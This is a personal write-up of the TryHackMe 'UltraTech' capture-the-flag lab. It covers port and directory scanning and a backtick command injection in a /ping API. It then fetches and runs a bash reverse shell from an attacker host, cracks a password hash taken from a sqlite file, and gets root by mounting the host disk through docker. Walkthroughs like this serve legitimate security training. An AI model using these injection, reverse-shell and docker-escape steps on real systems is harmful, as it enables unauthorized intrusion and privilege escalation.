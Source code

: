# Info

## IP = $IP

# Ports

## PortScanning
```bash
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/UltraTech]
└─$ nmap $IP       
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-10 21:05 EDT
Nmap scan report for $IP
Host is up (0.33s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
8081/tcp open  blackice-icecap
```
```bash
sudo nmap -p- -sS $IP 
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
8081/tcp  open  blackice-icecap
31331/tcp open  unknown
```

## Software Versions
```bash
Aggressive OS guesses: Linux 5.4 (96%), Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.10 (92%), Linux 3.12 (92%), Linux 3.18 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- _ubuntu_ is the distribution used

## 21
```bash
21/tcp   open  ftp     vsftpd 3.0.3
```
- without `anonymous` user ;-;

## 22
```bash
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc668985e705c2a5da7f01203a13fc27 (RSA)
|   256 c367dd26fa0c5692f35ba0b38d6d20ab (ECDSA)
|_  256 119b5ad6ff2fe449d2b517360e2f1d2f (ED25519)
```

## 8081
```bash
8081/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```
- _node.js_ is the software

### Web Searching
- UltraTech API v0.1.3

### `gobuster`
```bash
/auth                 (Status: 200) [Size: 39]
/ping                 (Status: 500) [Size: 1094]
```

### _/auth_
- get params are: **login** and **password**

### _/ping_
- get params are: **ip**
- RCE?
    - remove ';', '|', '&', '$'
    - error in ``8.8.8.8$(ls)``: `/bin/sh: 1: Syntax error: word unexpected (expecting ")")`
    - works with "\`\`" symbols
    - create _rev shell_ with:

```bash
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/UltraTech]
└─$ echo "bash -i >& /dev/tcp/$ATK_IP/1234 0>&1" > shell.sh
                                                                             
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/UltraTech]
└─$ python -m http.server 80          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:8000/) ...
```
```
# Request with following param:
ip = `wget http://$ATK_IP:80/shell.sh -o shell.sh`

# Doesn't work, so I tried this:
ip = `wget $ATK_IP/shell.sh -o shell.sh`

# It worked! So I tried this (with open port in attack machine):
ip = `bash shell.sh`

# I got a shell!
```


## 31331
### `gobuster` directory-list-2.3-medium.txt
```bash
/images               (Status: 301) [Size: 320] [--> http://$IP:31331/images/]                                                                    
/css                  (Status: 301) [Size: 317] [--> http://$IP:31331/css/]                                                                       
/js                   (Status: 301) [Size: 316] [--> http://$IP:31331/js/]                                                                        
/javascript           (Status: 301) [Size: 324] [--> http://$IP:31331/javascript/]
```
### `gobuster` common.txt
```bash
/css                  (Status: 301) [Size: 317] [--> http://$IP:31331/css/]                                                                       
/favicon.ico          (Status: 200) [Size: 15086]
/images               (Status: 301) [Size: 320] [--> http://$IP:31331/images/]                                                                    
/index.html           (Status: 200) [Size: 6092]
/javascript           (Status: 301) [Size: 324] [--> http://$IP:31331/javascript/]                                                                
/js                   (Status: 301) [Size: 316] [--> http://$IP:31331/js/]                                                                        
/robots.txt           (Status: 200) [Size: 53]
```

### _/js_
- _api.js_
```js
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```

### _/robots.txt_
- /utech_sitemap.txt

### _/utech_sitemap.txt_
- /index.html
- /what.html
- /partners.html

# PrivEsc

## Searching
- in _/home/www/api_, I found a _utech.db.sqlite_

```bash
www@ultratech-prod:~/api$ cat utech.db.sqlite
cat utech.db.sqlite
zz��etableusersusersCREATE TABLE users (
            login Varchar,
            password Varchar,
            type Int
���(r00tf357a0c52799563c7c7b76c1e7543a32)admin0d0ea5111e3c1def594c1684e3b9be84
```

- in "https://crackstation.net/", I throw the hash `https://crackstation.net/` and I got `n100906` as password

## ssh with `r00t:n100906`
- got `r00t` shell (isn't root ;-;)

## _linpeas.sh_
- uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
- https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker
```bash
r00t@ultratech-prod:/tmp$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        4 years ago         15.8MB
r00t@ultratech-prod:/tmp$ docker run -it -v /:/host/ 495d6437fc1e chroot /host/ bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@ae4466070836:/# whoami
root
```

## In Docker, I found a private ssh key
- check the first 9 chars and GG =D
